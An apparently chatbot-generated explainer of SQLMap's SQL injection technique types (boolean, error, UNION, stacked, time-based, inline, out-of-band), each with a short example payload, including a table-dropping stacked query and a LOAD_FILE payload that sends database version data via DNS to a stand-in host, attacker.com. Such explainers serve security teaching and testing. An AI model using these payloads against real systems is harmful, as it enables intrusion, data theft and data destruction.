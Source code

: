 The technique characters `BEUSTQ` refers to the following:

- `B`: Boolean-based blind
- `E`: Error-based
- `U`: Union query-based
- `S`: Stacked queries
- `T`: Time-based blind
- `Q`: Inline queries

### Types of SQL Injection Exploits Using SQLMap

#### 1. **Boolean-Based Blind SQL Injection**

In Boolean-based blind SQL Injection, SQLMap distinguishes between `TRUE` and `FALSE` results by comparing server responses. It retrieves 1 byte of data per request, based on factors like HTTP status codes, page content, or titles.

- **TRUE Results**: Responses are similar or identical to normal responses.
- **FALSE Results**: Responses show noticeable differences.

This is the most common type of SQLi in web applications.

#### Example:

sql

Copy code

`AND 1=1`

#### 2. **Error-Based SQL Injection**

Error-based SQL Injection leverages database errors returned by the server to extract information. SQLMap uses specialized payloads targeting specific database management systems (DBMS). It’s faster than most SQLi types, retrieving small data "chunks" in each request.

Supported DBMS:

- MySQL, PostgreSQL, Oracle, SQL Server, Sybase, Vertica, IBM DB2, Firebird, MonetDB.

#### Example:

sql

Copy code

`AND GTID_SUBSET(@@version,0)`

#### 3. **UNION Query-Based SQL Injection**

UNION query-based SQL Injection extends the original SQL query by merging it with injected data. If the original query’s results are displayed, the attacker can retrieve entire tables or data of interest in a single request, making it the fastest SQLi type.

#### Example:

sql

Copy code

`UNION ALL SELECT 1,@@version,3`

#### 4. **Stacked Queries (Piggybacking)**

Stacked queries allow injecting multiple SQL statements in one execution, especially useful for non-query actions like `INSERT`, `UPDATE`, or `DELETE`. This method is supported by certain DBMS (e.g., Microsoft SQL Server, PostgreSQL).

#### Example:

sql

Copy code

`; DROP TABLE users`

#### 5. **Time-Based Blind SQL Injection**

Time-based blind SQL Injection uses response delays to differentiate between `TRUE` and `FALSE`. Queries resulting in `TRUE` trigger noticeable response delays, while `FALSE` responses show no such delays. It’s slower than Boolean-based blind SQLi but effective in certain non-query situations (e.g., `INSERT`, `UPDATE`, `DELETE`).

#### Example:

sql

Copy code

`AND 1=IF(2>1,SLEEP(5),0)`

#### 6. **Inline Queries**

Inline queries embed a sub-query within the original SQL query. Though less common due to specific app design requirements, SQLMap supports this injection type.

#### Example:

sql

Copy code

`SELECT (SELECT @@version) FROM ...`

#### 7. **Out-of-Band SQL Injection**

Out-of-band SQL Injection is used when other methods are unsupported or too slow. SQLMap uses DNS exfiltration, forcing the target server to query controlled DNS servers, extracting SQL responses via DNS traffic.

#### Example:

sql

Copy code

`LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))`

This is one of the most advanced SQL injection techniques.

---

These SQL injection types demonstrate various methods of exploiting vulnerabilities using SQLMap, tailored to different DBMS environments and server behaviors.

4o